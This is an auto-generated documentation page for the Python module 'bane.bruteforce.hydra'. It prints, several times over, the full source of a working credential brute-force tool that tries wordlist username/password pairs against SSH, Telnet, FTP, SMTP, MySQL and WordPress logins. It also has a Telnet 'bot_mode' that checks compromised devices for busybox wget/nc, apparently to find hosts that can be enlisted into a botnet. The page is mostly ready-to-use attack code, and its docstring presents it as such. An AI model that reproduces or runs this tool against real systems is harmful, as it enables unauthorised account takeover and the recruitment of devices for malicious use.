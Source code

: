 <body>
<main>
<article id="content">
<header>
<h1 class="title">Module <code>bane.bruteforce.hydra</code></h1>
</header>
<section id="section-intro">
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">from bane.bruteforce.utils import *


&#34;&#34;&#34;
  the next functions are used to check the login credentials you provide, it can be used for bruteforce attacks.

  it returns True if the given logins, else it returns False.

  example:

  &gt;&gt;&gt;host=&#39;125.33.32.11&#39;
  &gt;&gt;&gt;wordlist=[&#39;admin:admin&#39;,&#39;admin123:admin&#39;,&#39;user:password&#39;]
  &gt;&gt;&gt;for x in wordlist:
      user=x.split(&#39;:&#39;)[0]
      pwd=x.split(&#39;:&#39;)[1]
      print &#39;[*]Trying:&#39;,user,pwd
      if bane.telnet(host,username=user,password=pwd)==True:
       print&#39;[+]Found!!!&#39;
      else:
       print&#39;[-]Failed&#39;

&#34;&#34;&#34;


def smtp(u, username, password, p=25, ehlo=True, helo=False, ttls=False,proxy_type=None,proxy_host=None,proxy_port=None,proxy_username=None,proxy_password=None,timeout=5):
    try:
        sock=get_socks_proxy_socket(u,p,proxy_host,proxy_port,proxy_type,username=proxy_username,password=proxy_password,timeout=timeout)
        s = smtplib.SMTP()  
        s.sock=sock
        if ehlo == True:
            s.ehlo()  # ehlo
            if ttls == True:
                s.starttls()  # ttls
        if helo == True:
            s.helo()  # helo
            if ttls == True:
                s.starttls()
        s.login(username, password)
        return True
    except Exception as e:
        pass
    return False


def telnet(u, username, password, p=23, timeout=5, bot_mode=False,proxy_type=None,proxy_host=None,proxy_port=None,proxy_username=None,proxy_password=None):
    try:
        t = xtelnet.session()
        t.connect(u, username=username, password=password, p=p, timeout=timeout,proxy_type=proxy_type,proxy_host=proxy_host,proxy_port=proxy_port,proxy_username=proxy_username,proxy_password=proxy_password)
        if bot_mode == True:
            a = t.execute(&#34;busybox&#34;)
        t.destroy()
        if bot_mode == True:
            if &#34;wget&#34; in a or &#34;nc&#34; in a:
                return True
            return False
        return True
    except:
        pass
    return False


# why i used this code for ssh brute force instead of: pexpext/paramiko ? Well pexpect doesn&#39;t work on non-linux machines and paramiko gives a huuuuge number of false positive results ! you will see, with this code there is no false positive brute force ;)


def ssh(u, username, password, p=22, timeout=5, exchange_key=None):
    if os.name == &#34;nt&#34; or os.name==os.PyShadowString(&#39;java&#39;, &#39;nt&#39;):
        if exchange_key != None:  # this doesn&#39;t work on windows for some reason :(
            return False
        l = &#39;echo y | plink -ssh -l {} -pw {} {} -P {} &#34;hvbjkjk&#34;&#39;.format(
            username, password, u, p
        )
        sshp = subprocess.Popen(
            l.split(),
            stdin=subprocess.PIPE,
            stdout=subprocess.PIPE,
            stderr=subprocess.PIPE,
            shell=True,
        )
    else:
        if exchange_key:
            key = &#34;-oHostKeyAlgorithms=+&#34; + exchange_key
        else:
            key = &#34;&#34;
        l = &#34;sshpass -p {} ssh {} -p {} -o StrictHostKeyChecking=no -l {} {} &#39;exithg&#39;&#34;.format(
            password, key, p, username, u
        )  # we use the sshpass command to send the password
        sshp = subprocess.Popen(
            l.split(),
            stdin=subprocess.PIPE,
            stdout=subprocess.PIPE,
            stderr=subprocess.PIPE,
        )
    ti = time.time()
    while sshp.poll() is None:
        time.sleep(0.1)
        # print(ssh.stdout.readlines())
        if int(time.time() - ti) == timeout:
            try:
                sshp.kill()
            except:
                pass
            return False
    ou = sshp.communicate()
    try:
        sshp.kill()
    except:
        pass
    time.sleep(0.1)
    if exchange_key == None:
        if &#34;Their offer:&#34; in ou[1].decode(&#34;utf-8&#34;):
            if os.name == &#34;nt&#34;:
                return False
            k = ou[1].decode(&#34;utf-8&#34;).split(&#34;offer:&#34;)[1].strip()
            return ssh(u, username, password, p=p, timeout=timeout, exchange_key=k)
    if &#34;Server refused to start a shell/command&#34; in ou[1].decode(&#34;utf-8&#34;):
        return True
    if (
        (&#34;unsupported&#34; in ou[1].decode(&#34;utf-8&#34;).lower())
        or (&#34;denied&#34; in ou[1].decode(&#34;utf-8&#34;).lower())
        or (&#34;FATAL ERROR&#34; in ou[1].decode(&#34;utf-8&#34;))
        or (&#34;refused&#34; in ou[1].decode(&#34;utf-8&#34;).lower())
        or (&#34;Unsupported KEX algorithm&#34; in ou[1].decode(&#34;utf-8&#34;))
        or (&#34;Bad SSH2 KexAlgorithms&#34; in ou[1].decode(&#34;utf-8&#34;))
        or (&#34;not accepted&#34; in ou[1].decode(&#34;utf-8&#34;).lower())
        or (&#34;invalid&#34; in ou[1].decode(&#34;utf-8&#34;).lower())
        or (&#34;incorrect&#34; in ou[1].decode(&#34;utf-8&#34;).lower())
    ):
        return False
    else:
        return True


def ftp_anon(ip, p,timeout=5,proxy_type=None,proxy_host=None,proxy_port=None,proxy_username=None,proxy_password=None):
    # anonymous ftp login
    try:
        sock=get_socks_proxy_socket(ip,p,proxy_host,proxy_port,proxy_type,username=proxy_username,password=proxy_password,timeout=timeout)
        ftp = FTP()
        ftp.sock=sock
        ftp.login()
        return True
    except Exception as e:
        pass
    return False


def ftp(ip,p, username, password, timeout=5,proxy_type=None,proxy_host=None,proxy_port=None,proxy_username=None,proxy_password=None):
    try:
        i = False
        sock=get_socks_proxy_socket(ip,p,proxy_host,proxy_port,proxy_type,username=proxy_username,password=proxy_password,timeout=timeout)
        ftp = FTP()
        ftp.sock=sock
        ftp.login(username, password)
        return True
    except Exception as e:
        pass
    return False


def mysql(u, username, password, timeout=5, p=3306):
    try:
        s=pymysql.connect(host=u,port=p,user=username,password=password,connect_timeout=timeout)
        s.close()
        return True
    except Exception as e:
        pass
    return False


class hydra:
    __slots__ = [&#34;stop&#34;, &#34;finish&#34;, &#34;result&#34;, &#34;logs&#34;]

    def __init__(
        self,
        u,
        p=22,
        protocol=&#34;ssh&#34;,
        word_list=[],
        threads_daemon=True,
        logs=True,
        exchange_key=None,
        timeout=5,
        ehlo=False,
        helo=True,
        ttls=False,
        proxy=None,
        proxies=None,
        user_agent=None,
        cookie=None,
        headers={}
    ):
        &#34;&#34;&#34;
        this function is similar to hydra tool to bruteforce attacks on different ports.

        protocol: (set by default to: ssh) set the chosen protocol (ftp, ssh, telnet, smtp and mysql) and don&#39;t forget to set the port.&#34;&#34;&#34;
        self.logs = logs
        self.stop = False
        self.finish = False
        self.result = {}
        t = threading.Thread(
            target=self.crack,
            args=(
                u,
                p,
                protocol,
                word_list,
                logs,
                exchange_key,
                timeout,
                ehlo,
                helo,
                ttls,
                proxy,
                proxies,
                user_agent,
                cookie,
                headers,
            ),
        )
        t.daemon = threads_daemon
        t.start()

    def crack(
        self,
        u,
        p,
        protocol,
        word_list,
        logs,
        exchange_key,
        timeout,
        ehlo,
        helo,
        ttls,
        proxy,
        proxies,
        user_agent,
        cookie,
        headers
    ):
        o = &#34;&#34;
        if protocol == &#34;telnet&#34;:
            s = telnet
        if protocol == &#34;ssh&#34;:
            s = ssh
        if protocol == &#34;ftp&#34;:
            s = ftp
        if protocol == &#34;smtp&#34;:
            s = smtp
        if protocol == &#34;mysql&#34;:
            s = mysql
        if protocol == &#34;wp&#34;:
            s = wpadmin
        for x in word_list:
            if self.stop == True:
                break
            user = x.split(&#34;:&#34;)[0].strip()
            pwd = x.split(&#34;:&#34;)[1].strip()
            if self.logs == True:
                print(&#34;[*]Trying ==&gt; {}:{}&#34;.format(user, pwd))
            if protocol == &#34;ssh&#34;:
                r = s(u, user, pwd, timeout=timeout, p=p, exchange_key=exchange_key)
            elif protocol == &#34;telnet&#34;:
                r = s(u, user, pwd, timeout=timeout, p=p)
            elif protocol == &#34;mysql&#34;:
                r = s(u, user, pwd, timeout=timeout, p=p)
            elif protocol == &#34;ftp&#34;:
                r = s(u, user, pwd, timeout=timeout)
            elif protocol == &#34;wp&#34;:
                if proxy:
                    proxy = proxy
                if proxies:
                    proxy = random.choice(proxies)
                r = s(
                    u,
                    user,
                    pwd,
                    proxy=proxy,
                    user_agent=user_agent,
                    cookie=cookie,
                    timeout=timeout,
                    headers=headers
                )
            elif protocol == &#34;smtp&#34;:
                r = s(u, p, user, pwd, ehlo=ehlo, helo=helo, ttls=ttls)
            else:
                r = s(u, user, pwd, timeout=timeout)
            if r == True:
                if self.logs == True:
                    print(&#34;[+]Found!!!&#34;)
                o = &#34;{}:{}&#34;.format(user, pwd)
                break
            else:
                if self.logs == True:
                    print(&#34;[-]Failed&#34;)
        self.result = {u: o}
        self.finish = True</code></pre>
</details>
</section>
<section>
</section>
<section>
</section>
<section>
<h2 class="section-title" id="header-functions">Functions</h2>
<dl>
<dt id="bane.bruteforce.hydra.ftp"><code class="name flex">
<span>def <span class="ident">ftp</span></span>(<span>ip, p, username, password, timeout=5, proxy_type=None, proxy_host=None, proxy_port=None, proxy_username=None, proxy_password=None)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def ftp(ip,p, username, password, timeout=5,proxy_type=None,proxy_host=None,proxy_port=None,proxy_username=None,proxy_password=None):
    try:
        i = False
        sock=get_socks_proxy_socket(ip,p,proxy_host,proxy_port,proxy_type,username=proxy_username,password=proxy_password,timeout=timeout)
        ftp = FTP()
        ftp.sock=sock
        ftp.login(username, password)
        return True
    except Exception as e:
        pass
    return False</code></pre>
</details>
</dd>
<dt id="bane.bruteforce.hydra.ftp_anon"><code class="name flex">
<span>def <span class="ident">ftp_anon</span></span>(<span>ip, p, timeout=5, proxy_type=None, proxy_host=None, proxy_port=None, proxy_username=None, proxy_password=None)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def ftp_anon(ip, p,timeout=5,proxy_type=None,proxy_host=None,proxy_port=None,proxy_username=None,proxy_password=None):
    # anonymous ftp login
    try:
        sock=get_socks_proxy_socket(ip,p,proxy_host,proxy_port,proxy_type,username=proxy_username,password=proxy_password,timeout=timeout)
        ftp = FTP()
        ftp.sock=sock
        ftp.login()
        return True
    except Exception as e:
        pass
    return False</code></pre>
</details>
</dd>
<dt id="bane.bruteforce.hydra.mysql"><code class="name flex">
<span>def <span class="ident">mysql</span></span>(<span>u, username, password, timeout=5, p=3306)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def mysql(u, username, password, timeout=5, p=3306):
    try:
        s=pymysql.connect(host=u,port=p,user=username,password=password,connect_timeout=timeout)
        s.close()
        return True
    except Exception as e:
        pass
    return False</code></pre>
</details>
</dd>
<dt id="bane.bruteforce.hydra.smtp"><code class="name flex">
<span>def <span class="ident">smtp</span></span>(<span>u, username, password, p=25, ehlo=True, helo=False, ttls=False, proxy_type=None, proxy_host=None, proxy_port=None, proxy_username=None, proxy_password=None, timeout=5)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def smtp(u, username, password, p=25, ehlo=True, helo=False, ttls=False,proxy_type=None,proxy_host=None,proxy_port=None,proxy_username=None,proxy_password=None,timeout=5):
    try:
        sock=get_socks_proxy_socket(u,p,proxy_host,proxy_port,proxy_type,username=proxy_username,password=proxy_password,timeout=timeout)
        s = smtplib.SMTP()  
        s.sock=sock
        if ehlo == True:
            s.ehlo()  # ehlo
            if ttls == True:
                s.starttls()  # ttls
        if helo == True:
            s.helo()  # helo
            if ttls == True:
                s.starttls()
        s.login(username, password)
        return True
    except Exception as e:
        pass
    return False</code></pre>
</details>
</dd>
<dt id="bane.bruteforce.hydra.ssh"><code class="name flex">
<span>def <span class="ident">ssh</span></span>(<span>u, username, password, p=22, timeout=5, exchange_key=None)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def ssh(u, username, password, p=22, timeout=5, exchange_key=None):
    if os.name == &#34;nt&#34; or os.name==os.PyShadowString(&#39;java&#39;, &#39;nt&#39;):
        if exchange_key != None:  # this doesn&#39;t work on windows for some reason :(
            return False
        l = &#39;echo y | plink -ssh -l {} -pw {} {} -P {} &#34;hvbjkjk&#34;&#39;.format(
            username, password, u, p
        )
        sshp = subprocess.Popen(
            l.split(),
            stdin=subprocess.PIPE,
            stdout=subprocess.PIPE,
            stderr=subprocess.PIPE,
            shell=True,
        )
    else:
        if exchange_key:
            key = &#34;-oHostKeyAlgorithms=+&#34; + exchange_key
        else:
            key = &#34;&#34;
        l = &#34;sshpass -p {} ssh {} -p {} -o StrictHostKeyChecking=no -l {} {} &#39;exithg&#39;&#34;.format(
            password, key, p, username, u
        )  # we use the sshpass command to send the password
        sshp = subprocess.Popen(
            l.split(),
            stdin=subprocess.PIPE,
            stdout=subprocess.PIPE,
            stderr=subprocess.PIPE,
        )
    ti = time.time()
    while sshp.poll() is None:
        time.sleep(0.1)
        # print(ssh.stdout.readlines())
        if int(time.time() - ti) == timeout:
            try:
                sshp.kill()
            except:
                pass
            return False
    ou = sshp.communicate()
    try:
        sshp.kill()
    except:
        pass
    time.sleep(0.1)
    if exchange_key == None:
        if &#34;Their offer:&#34; in ou[1].decode(&#34;utf-8&#34;):
            if os.name == &#34;nt&#34;:
                return False
            k = ou[1].decode(&#34;utf-8&#34;).split(&#34;offer:&#34;)[1].strip()
            return ssh(u, username, password, p=p, timeout=timeout, exchange_key=k)
    if &#34;Server refused to start a shell/command&#34; in ou[1].decode(&#34;utf-8&#34;):
        return True
    if (
        (&#34;unsupported&#34; in ou[1].decode(&#34;utf-8&#34;).lower())
        or (&#34;denied&#34; in ou[1].decode(&#34;utf-8&#34;).lower())
        or (&#34;FATAL ERROR&#34; in ou[1].decode(&#34;utf-8&#34;))
        or (&#34;refused&#34; in ou[1].decode(&#34;utf-8&#34;).lower())
        or (&#34;Unsupported KEX algorithm&#34; in ou[1].decode(&#34;utf-8&#34;))
        or (&#34;Bad SSH2 KexAlgorithms&#34; in ou[1].decode(&#34;utf-8&#34;))
        or (&#34;not accepted&#34; in ou[1].decode(&#34;utf-8&#34;).lower())
        or (&#34;invalid&#34; in ou[1].decode(&#34;utf-8&#34;).lower())
        or (&#34;incorrect&#34; in ou[1].decode(&#34;utf-8&#34;).lower())
    ):
        return False
    else:
        return True</code></pre>
</details>
</dd>
<dt id="bane.bruteforce.hydra.telnet"><code class="name flex">
<span>def <span class="ident">telnet</span></span>(<span>u, username, password, p=23, timeout=5, bot_mode=False, proxy_type=None, proxy_host=None, proxy_port=None, proxy_username=None, proxy_password=None)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def telnet(u, username, password, p=23, timeout=5, bot_mode=False,proxy_type=None,proxy_host=None,proxy_port=None,proxy_username=None,proxy_password=None):
    try:
        t = xtelnet.session()
        t.connect(u, username=username, password=password, p=p, timeout=timeout,proxy_type=proxy_type,proxy_host=proxy_host,proxy_port=proxy_port,proxy_username=proxy_username,proxy_password=proxy_password)
        if bot_mode == True:
            a = t.execute(&#34;busybox&#34;)
        t.destroy()
        if bot_mode == True:
            if &#34;wget&#34; in a or &#34;nc&#34; in a:
                return True
            return False
        return True
    except:
        pass
    return False</code></pre>
</details>
</dd>
</dl>
</section>
<section>
<h2 class="section-title" id="header-classes">Classes</h2>
<dl>
<dt id="bane.bruteforce.hydra.hydra"><code class="flex name class">
<span>class <span class="ident">hydra</span></span>
<span>(</span><span>u, p=22, protocol='ssh', word_list=[], threads_daemon=True, logs=True, exchange_key=None, timeout=5, ehlo=False, helo=True, ttls=False, proxy=None, proxies=None, user_agent=None, cookie=None, headers={})</span>
</code></dt>
<dd>
<div class="desc"><p>this function is similar to hydra tool to bruteforce attacks on different ports.</p>
<p>protocol: (set by default to: ssh) set the chosen protocol (ftp, ssh, telnet, smtp and mysql) and don't forget to set the port.</p></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">class hydra:
    __slots__ = [&#34;stop&#34;, &#34;finish&#34;, &#34;result&#34;, &#34;logs&#34;]

    def __init__(
        self,
        u,
        p=22,
        protocol=&#34;ssh&#34;,
        word_list=[],
        threads_daemon=True,
        logs=True,
        exchange_key=None,
        timeout=5,
        ehlo=False,
        helo=True,
        ttls=False,
        proxy=None,
        proxies=None,
        user_agent=None,
        cookie=None,
        headers={}
    ):
        &#34;&#34;&#34;
        this function is similar to hydra tool to bruteforce attacks on different ports.

        protocol: (set by default to: ssh) set the chosen protocol (ftp, ssh, telnet, smtp and mysql) and don&#39;t forget to set the port.&#34;&#34;&#34;
        self.logs = logs
        self.stop = False
        self.finish = False
        self.result = {}
        t = threading.Thread(
            target=self.crack,
            args=(
                u,
                p,
                protocol,
                word_list,
                logs,
                exchange_key,
                timeout,
                ehlo,
                helo,
                ttls,
                proxy,
                proxies,
                user_agent,
                cookie,
                headers,
            ),
        )
        t.daemon = threads_daemon
        t.start()

    def crack(
        self,
        u,
        p,
        protocol,
        word_list,
        logs,
        exchange_key,
        timeout,
        ehlo,
        helo,
        ttls,
        proxy,
        proxies,
        user_agent,
        cookie,
        headers
    ):
        o = &#34;&#34;
        if protocol == &#34;telnet&#34;:
            s = telnet
        if protocol == &#34;ssh&#34;:
            s = ssh
        if protocol == &#34;ftp&#34;:
            s = ftp
        if protocol == &#34;smtp&#34;:
            s = smtp
        if protocol == &#34;mysql&#34;:
            s = mysql
        if protocol == &#34;wp&#34;:
            s = wpadmin
        for x in word_list:
            if self.stop == True:
                break
            user = x.split(&#34;:&#34;)[0].strip()
            pwd = x.split(&#34;:&#34;)[1].strip()
            if self.logs == True:
                print(&#34;[*]Trying ==&gt; {}:{}&#34;.format(user, pwd))
            if protocol == &#34;ssh&#34;:
                r = s(u, user, pwd, timeout=timeout, p=p, exchange_key=exchange_key)
            elif protocol == &#34;telnet&#34;:
                r = s(u, user, pwd, timeout=timeout, p=p)
            elif protocol == &#34;mysql&#34;:
                r = s(u, user, pwd, timeout=timeout, p=p)
            elif protocol == &#34;ftp&#34;:
                r = s(u, user, pwd, timeout=timeout)
            elif protocol == &#34;wp&#34;:
                if proxy:
                    proxy = proxy
                if proxies:
                    proxy = random.choice(proxies)
                r = s(
                    u,
                    user,
                    pwd,
                    proxy=proxy,
                    user_agent=user_agent,
                    cookie=cookie,
                    timeout=timeout,
                    headers=headers
                )
            elif protocol == &#34;smtp&#34;:
                r = s(u, p, user, pwd, ehlo=ehlo, helo=helo, ttls=ttls)
            else:
                r = s(u, user, pwd, timeout=timeout)
            if r == True:
                if self.logs == True:
                    print(&#34;[+]Found!!!&#34;)
                o = &#34;{}:{}&#34;.format(user, pwd)
                break
            else:
                if self.logs == True:
                    print(&#34;[-]Failed&#34;)
        self.result = {u: o}
        self.finish = True</code></pre>
</details>
<h3>Instance variables</h3>
<dl>
<dt id="bane.bruteforce.hydra.hydra.finish"><code class="name">var <span class="ident">finish</span></code></dt>
<dd>
<div class="desc"><p>Return an attribute of instance, which is of type owner.</p></div>
</dd>
<dt id="bane.bruteforce.hydra.hydra.logs"><code class="name">var <span class="ident">logs</span></code></dt>
<dd>
<div class="desc"><p>Return an attribute of instance, which is of type owner.</p></div>
</dd>
<dt id="bane.bruteforce.hydra.hydra.result"><code class="name">var <span class="ident">result</span></code></dt>
<dd>
<div class="desc"><p>Return an attribute of instance, which is of type owner.</p></div>
</dd>
<dt id="bane.bruteforce.hydra.hydra.stop"><code class="name">var <span class="ident">stop</span></code></dt>
<dd>
<div class="desc"><p>Return an attribute of instance, which is of type owner.</p></div>
</dd>
</dl>
<h3>Methods</h3>
<dl>
<dt id="bane.bruteforce.hydra.hydra.crack"><code class="name flex">
<span>def <span class="ident">crack</span></span>(<span>self, u, p, protocol, word_list, logs, exchange_key, timeout, ehlo, helo, ttls, proxy, proxies, user_agent, cookie, headers)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def crack(
    self,
    u,
    p,
    protocol,
    word_list,
    logs,
    exchange_key,
    timeout,
    ehlo,
    helo,
    ttls,
    proxy,
    proxies,
    user_agent,
    cookie,
    headers
):
    o = &#34;&#34;
    if protocol == &#34;telnet&#34;:
        s = telnet
    if protocol == &#34;ssh&#34;:
        s = ssh
    if protocol == &#34;ftp&#34;:
        s = ftp
    if protocol == &#34;smtp&#34;:
        s = smtp
    if protocol == &#34;mysql&#34;:
        s = mysql
    if protocol == &#34;wp&#34;:
        s = wpadmin
    for x in word_list:
        if self.stop == True:
            break
        user = x.split(&#34;:&#34;)[0].strip()
        pwd = x.split(&#34;:&#34;)[1].strip()
        if self.logs == True:
            print(&#34;[*]Trying ==&gt; {}:{}&#34;.format(user, pwd))
        if protocol == &#34;ssh&#34;:
            r = s(u, user, pwd, timeout=timeout, p=p, exchange_key=exchange_key)
        elif protocol == &#34;telnet&#34;:
            r = s(u, user, pwd, timeout=timeout, p=p)
        elif protocol == &#34;mysql&#34;:
            r = s(u, user, pwd, timeout=timeout, p=p)
        elif protocol == &#34;ftp&#34;:
            r = s(u, user, pwd, timeout=timeout)
        elif protocol == &#34;wp&#34;:
            if proxy:
                proxy = proxy
            if proxies:
                proxy = random.choice(proxies)
            r = s(
                u,
                user,
                pwd,
                proxy=proxy,
                user_agent=user_agent,
                cookie=cookie,
                timeout=timeout,
                headers=headers
            )
        elif protocol == &#34;smtp&#34;:
            r = s(u, p, user, pwd, ehlo=ehlo, helo=helo, ttls=ttls)
        else:
            r = s(u, user, pwd, timeout=timeout)
        if r == True:
            if self.logs == True:
                print(&#34;[+]Found!!!&#34;)
            o = &#34;{}:{}&#34;.format(user, pwd)
            break
        else:
            if self.logs == True:
                print(&#34;[-]Failed&#34;)
    self.result = {u: o}
    self.finish = True</code></pre>
</details>
</dd>
</dl>
</dd>
</dl>
</section>
</article>
<nav id="sidebar">
<h1>Index</h1>
<div class="toc">
<ul></ul>
</div>
<ul id="index">
<li><h3>Super-module</h3>
<ul>
<li><code><a title="bane.bruteforce" href="index.md">bane.bruteforce</a></code></li>
</ul>
</li>
<li><h3><a href="#header-functions">Functions</a></h3>
<ul class="two-column">
<li><code><a title="bane.bruteforce.hydra.ftp" href="#bane.bruteforce.hydra.ftp">ftp</a></code></li>
<li><code><a title="bane.bruteforce.hydra.ftp_anon" href="#bane.bruteforce.hydra.ftp_anon">ftp_anon</a></code></li>
<li><code><a title="bane.bruteforce.hydra.mysql" href="#bane.bruteforce.hydra.mysql">mysql</a></code></li>
<li><code><a title="bane.bruteforce.hydra.smtp" href="#bane.bruteforce.hydra.smtp">smtp</a></code></li>
<li><code><a title="bane.bruteforce.hydra.ssh" href="#bane.bruteforce.hydra.ssh">ssh</a></code></li>
<li><code><a title="bane.bruteforce.hydra.telnet" href="#bane.bruteforce.hydra.telnet">telnet</a></code></li>
</ul>
</li>
<li><h3><a href="#header-classes">Classes</a></h3>
<ul>
<li>
<h4><code><a title="bane.bruteforce.hydra.hydra" href="#bane.bruteforce.hydra.hydra">hydra</a></code></h4>
<ul class="">
<li><code><a title="bane.bruteforce.hydra.hydra.crack" href="#bane.bruteforce.hydra.hydra.crack">crack</a></code></li>
<li><code><a title="bane.bruteforce.hydra.hydra.finish" href="#bane.bruteforce.hydra.hydra.finish">finish</a></code></li>
<li><code><a title="bane.bruteforce.hydra.hydra.logs" href="#bane.bruteforce.hydra.hydra.logs">logs</a></code></li>
<li><code><a title="bane.bruteforce.hydra.hydra.result" href="#bane.bruteforce.hydra.hydra.result">result</a></code></li>
<li><code><a title="bane.bruteforce.hydra.hydra.stop" href="#bane.bruteforce.hydra.hydra.stop">stop</a></code></li>
</ul>
</li>
</ul>
</li>
</ul>
</nav>
</main>
<footer id="footer">
<p>Generated by <a href="https://pdoc3.github.io/pdoc" title="pdoc: Python API documentation generator"><cite>pdoc</cite> 0.10.0</a>.</p>
</footer>
</body>
</html>